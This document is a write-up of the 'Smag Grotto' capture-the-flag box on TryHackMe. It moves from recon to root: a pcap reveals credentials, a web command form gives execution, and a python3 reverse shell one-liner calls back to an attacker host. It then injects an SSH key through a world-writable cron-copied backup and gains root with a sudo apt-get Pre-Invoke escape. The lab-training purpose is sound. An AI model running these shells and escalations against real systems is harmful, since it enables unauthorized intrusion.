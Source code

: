 # 'Smag Grotto' box writeup
## Smag Grotto is a CTF box written by JakeDoesSec and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [Crontab service](https://opensource.com/article/17/11/how-use-cron-linux), [apt-get package system tool](https://itsfoss.com/apt-get-linux-guide/) and [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.163.139``

+ **There are 2 services running on default ports: ssh and http**

![1](images/nmap_scan_sg.jpg?raw=true "nmap_scan")

+ **Visiting the http site, we are welcomed by a big Smag title with a small announce from the developer of the site**

![2](images/site_sg.png?raw=true "Site")

+ **Let's perform a gobuster to search some directories on the website. I'm using the common.txt wordlist, a default wordlist on kali machines**

``gobuster dir -u http://10.10.163.139/ -w /usr/share/wordlists/dirb/common.txt``


![3](images/dirbuster.jpg?raw=true "gobuster")

+ **We found a mail directory, so let's check it out into the web browser. It seems to be like a mail message left on the website to notify a future migration. The mail was written with the intention to arrive to the admin of the page**

![4](images/mail_page.png?raw=true "mail_page")

+ **Inside the first Network Migration box of the message, we can spot the dHJhY2Uy.pcap, a linked file which seems to be a packet data of this network. Let's download that file and go into a Wireshark analysis of this packet.**

![5](images/wiresh_packet.png?raw=true "wireshark_analysis")

+ **We can spot a POST login request inside the data packet, so let's follow TCP stream into this packet**

![6](images/tcp_stream.png?raw=true "tcp_stream")

+ **Bingo! We found some credentials in plain text form. Looking in the picture above us, we can see the Host that has been used in the POST login request: development.smag.thm. If we are trying to access that page, we're having trouble finding that site... But, judging on the mails that the developers shared between them, the website suffered a migration, so let's just try to change our hosts list to override the DNS**

``sudo vim /etc/hosts``

![7](images/hosts.jpg?raw=true "hosts")

+ **Now, let's try to access the development.smag.thm/login.php page so we can use our credentials**

![7](images/login_1.jpg?raw=true "login")

+ **We are welcomed by a big title 'Enter a command' with a box below. I tried some several linux commands like ls, whoami, etc, but i can't see no output. So i've tried to download a file on the box machine with the wget, hosting a simple python server on mine, just to check if the commands are available and if it's worth trying a reverse shell.**

![8](images/wget.jpg?raw=true "wget")

## User escalation
+ **It's all working, we have the GET request so let's move on to a reverse shell, using python3. I've tried with python but not working, because probably on the machine a python3 is installed.**
  **Firstly, listen to the 1234 port**
``nc -lvnp 1234``

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

 **And here it's our shell, connected with the www-data user. Let's upgrade it to an interactive one**

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

![9](images/entered_2.jpg?raw=true "shell")

+ **Let's look into the crontab file and understand it. We have a cron which tells us that the root user is making an overwriting action every minute through the cat command from the** jake_id_rsa.pub.backup **file to the** authorized_keys **file of the jake user. This means that if we can modify the jake_id_rsa.pub.backup content, we can connect with the jake user on the ssh service.**

![10](images/crontab.jpg?raw=true "crontab")

 **Luckily, the** jake_id_rsa.pub.backup **file has writing permission for every user.**

![11](images/fileperm.jpg?raw=true "fileperm")

+ **Let's copy our public key into the remote box.**

``cat /home/kali/.ssh/id_rsa.pub``

``echo "your_id_rsa.pub" > /opt/.backups/jake_id_rsa.pub.backup``

![12](images/copy_id.jpg?raw=true "copy_id")

![13](images/copy_id_2.jpg?raw=true "copy_id_2")


+ **Now, we have overwritten the public ssh and we can use public key authentication. Voila, there's our user flag**

![13](images/user_flag.jpg?raw=true "user_flag")

## Root Escalation

+ **Running the** ``sudo -l`` **command, we can see the allowed commands for the user jake. He has a powerful accessible command to run: apt-get, which is the command line tool to interact with this packaging system.**

![14](images/sudola.jpg?raw=true "sudo -l")

+ **Exploiting the apt-get vulnerability, we can use the tool to gain a root access, using the update option and simultaneously invoking the bash into the root account**

``sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash``

 ![15](images/root_flag_1.jpg?raw=true "root_flag")

 **So here we got the root flag. It was a funny box with an interesting vulnerability based on apt tool, a very useful box for beginners**
